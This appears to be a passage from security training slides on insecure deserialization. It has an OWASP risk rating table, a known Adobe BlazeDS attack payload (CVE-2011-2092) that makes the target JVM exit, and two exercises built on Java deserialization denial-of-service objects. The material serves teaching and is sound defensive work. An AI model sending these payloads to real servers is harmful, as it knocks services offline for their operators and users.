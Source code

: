 # Risk Rating

## Insecure Deserialization

| Exploitability                   | Prevalence                    | Detecability                   | Impact              | Risk                                                                          |
|:---------------------------------|:------------------------------|:-------------------------------|:--------------------|:------------------------------------------------------------------------------|
| :small_orange_diamond: Difficult | :large_orange_diamond: Common | :large_orange_diamond: Average | :red_circle: Severe | [A8](https://www.owasp.org/index.php/Top_10-2017_A8-Insecure_Deserialization) |
| ( **1**                          | + **2**                       | + **2** ) / 3                  | * **3**             | = **5.0**                                                                     |

---

# [Attack Example (Adobe BlazeDS)](https://nvd.nist.gov/vuln/detail/CVE-2011-2092)

```java
[RemoteClass(alias="javax.swing.JFrame")]
public class JFrame {
   public var title:String = "Gotcha!";
   public var defaultCloseOperation:int = 3;
   public var visible:Boolean = true;
}
```
* Above payload creates a `JFrame` instance on the target server
* The `JFrame` object will have a `defaultCloseOperation` of value `3`
* This indicates that **the JVM should exit** when this window is closed

---

# Exercise 7.2

1. What happens when the `root` object would be deserialized?

```java
ArrayList<Object> root = new ArrayList<>(Integer.MAX_VALUE);
```

---



# Exercise 7.3

1. What happens when the `root` object would be deserialized?

```java
Set root = new HashSet();
Set s1 = root;
Set s2 = new HashSet();
for (int i = 0; i < 100; i++) {
  Set t1 = new HashSet();
  Set t2 = new HashSet();
  t1.add("foo");
  s1.add(t1);
  s1.add(t2);
  s2.add(t1);
  s2.add(t2);
  s1 = t1;
  s2 = t2;
}
```

---

[^1]: http://www.oracle.com/technetwork/java/serial-137074.html